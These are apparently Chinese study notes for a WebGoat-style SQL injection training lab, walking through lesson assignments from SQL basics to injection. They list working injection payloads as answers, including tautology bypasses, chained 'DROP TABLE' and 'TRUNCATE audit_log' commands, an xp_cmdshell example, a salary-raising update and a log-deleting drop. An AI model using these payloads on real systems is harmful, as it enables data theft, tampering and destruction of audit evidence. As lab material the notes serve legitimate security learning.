










# SQL注入

[TOC]

## Lesson 2

**SQL** (Structured Query Language:结构化查询语言) 是用于管理关系数据库管理系统（RDBMS）。 SQL 的范围包括数据插入、查询、更新和删除，数据库模式创建和修改，以及数据访问控制。

### Assigment

尝试检索员工 Bob Franco 的部门。`select * from employees where first_name='Bob'`



### 代码审计


所以在这个案例中，我们是可以实现注入的，但是由于我们是以只读的方式打开数据库导致我们并不能用注入修改数据库。



```
`CONCUR_READ_ONLY` 是 JDBC（Java 数据库连接）中的一个常量，用于指定创建的结果集（ResultSet）对象的类型。

具体来说，`CONCUR_READ_ONLY` 意味着创建的结果集是只读的，不支持对结果集进行更新操作。这样的结果集适用于仅需从数据库中检索数据而不需要对数据进行修改的情况。

当您使用 `CONCUR_READ_ONLY` 来创建结果集时，您可以通过该结果集进行数据的检索、遍历和处理，但是无法通过该结果集对数据库中的数据进行修改、插入或删除操作。这可以提供一定程度的安全性和性能优势，特别是在只需要读取数据的场景下。

在使用 JDBC 连接数据库并执行查询时，您可以选择使用 `CONCUR_READ_ONLY` 来创建只读的结果集，以满足您的业务需求。
```

最后提一嘴，返回connect其实是被代理过的写法很有意思。估计是为了做隔离，保护原始数据不在接下来的实验中被损坏。



## Lesson 3

顾名思义，数据操作语言用于处理数据操作。许多最常见的 SQL 语句（包括 SELECT、INSERT、UPDATE 和 DELETE）都可以归类为 DML 语句。

### Assigment

更新数据库信息，将员工Tobi Barnett的部门修改成'Sales'。

1. 执行修改命令`update employees set department = 'Sales' where first_name='Tobi'`

   

## Lesson 4

数据定义语言，用于定义数据库结构。

* create
* alter
* drop

### Assigment

将phone列添加到employees表中

1. 输入`alter table employees add phone varchar(20);`

## Lesson 5

数据库控制语言，用于对数据库实现访问控制。

* Grant授予用户对数据库对象的访问权限
* Revoke撤销先前使用 GRANT 授予的用户权限

### Assigment

1. 执行命令`grant all on grant_rights  to unauthorized_user`

   

## Lesson 6

SQL 注入 (也称为 SQLi) 是最常见的网络黑客技术之一。SQL**注入攻击包括通过从客户端到应用程序的 SQL 查询输入插入或“注入”恶意代码。**如果处理不当，SQL 注入会严重影响数据的完整性和安全性。

* Smith' OR '1' = '1

  结果`SELECT * FROM users WHERE name = 'Smith' OR TRUE;`将返回用户表中的所有条目

* Smith' OR 1 = 1; --

​	`SELECT * FROM users WHERE name = 'Smith' OR TRUE;--';`与第一个例子一样， 结果也将返回用户表中的所有条目

* Smith'; DROP TABLE users; TRUNCATE audit_log; --

​	链接多个 SQL 命令，以便删除用户表并删除 audit_log 表中的所有条目

## Lesson 8

### 并非所有数据库都支持命令链

* Microsoft Access
* MySQL Connector/J and C
* Oracle

### SQL注入普遍发生在PHP, Classic ASP, Cold Fusion 等一些较为老的语言中

- 不提供参数化查询支持的语言
- 参数化查询已添加到较新版本
- Web 技术的早期采用者（即旧代码）

### 不同数据库是有差别的

* Command shell: `master.dbo.xp_cmdshell 'cmd.exe dir c:'`
* Registry commands: `xp_regread`, `xp_regdeletekey`, …

## Lesson 9 字符串注入

### Assigment

```
smith' or `1`=`1
```




### 总结

字符串查询注入

```sql
smith' or `1`=`1
```

## Lesson 10 数字注入

### Assigment

```
1
1 or 1=1
```



## Lesson 11 

### Assigment

查看所有人薪酬

```sql
tom
notan' or '1'='1
```



## Lesson12 

### Assigment

增加薪水

```
Smith 
3SL99A'; update employees set salary=1000000 where userid=37648; --
```



## Lesson13

### Assigment

清除日志

```
update' or 1=1; drop table if exists access_log; --
```



